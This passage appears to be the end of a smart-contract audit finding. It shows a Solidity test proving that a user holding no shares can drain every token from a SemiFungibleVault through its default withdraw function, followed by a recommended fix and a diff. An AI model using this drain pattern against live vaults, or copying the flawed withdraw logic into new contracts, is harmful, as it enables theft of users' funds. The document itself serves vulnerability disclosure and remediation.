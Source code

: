 ### Proof of concept
```solidity
contract Derived is SemiFungibleVault {
    constructor(
        IERC20 asset_
    ) SemiFungibleVault(asset_, "name", "symbol", "tokenURI") {}
}

contract VaultIssues is Helper {
    function testDrain() public {
        // create a vault with 100 tokens
        address asset = address(new MintableToken("name", "symbol"));
        Derived vault = new Derived(IERC20(asset));
        deal(asset, address(vault), 100 ether, true);

        // confirm initial balances
        assertEq(IERC20(asset).balanceOf(address(vault)), 100 ether);
        assertEq(IERC20(asset).balanceOf(USER), 0);

        // drain the vault
        vm.prank(USER);
        vault.withdraw(0, 100 ether, USER, USER);

        // confirm drained vault
        assertEq(IERC20(asset).balanceOf(address(vault)), 0);
        assertEq(IERC20(asset).balanceOf(USER), 100 ether);
    }
}
```

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/SemiFungibleVault.sol#L66-L90

## Tool used

Manual Review

## Recommendation

The default implementation should be changed so the `assets` amount passed in gets burned. 

```diff
-   shares = previewWithdraw(id, assets);

-   _burn(owner, id, shares);
+   _burn(owner, id, assets);
```

Alternatively, the `withdraw` and `previewWithdraw` functions should be marked as `abstract` and have no default implementation. This would force derived contracts to implement these functions and remove the default vulnerability.

